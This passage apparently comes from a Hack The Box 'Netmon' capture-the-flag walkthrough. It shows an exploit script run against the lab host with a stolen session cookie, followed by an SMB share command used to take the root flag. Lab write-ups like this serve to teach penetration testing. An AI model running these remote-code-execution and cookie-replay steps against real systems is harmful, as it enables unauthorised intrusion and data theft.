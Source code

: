 Here we see our cookie as the site attempts to load /home. Let's copy that and we should be ready to run the program.

`./rce.sh -u http://10.10.10.152 -c "OCTOPUS1813713946=e0YwNUE4QzdDLUM2NkMtNDcxMS05NTU3LTE2ODM1Q0I0NzExOX0%3D"`

![](/images/HTB/Netmon/rce_script.png)

Success! Now we have some options. We could just use smbclient to grab the root flag:

`\\\\10.10.10.152\\C$ -U cypher`

![](/images/HTB/Netmon/smbclient.png)
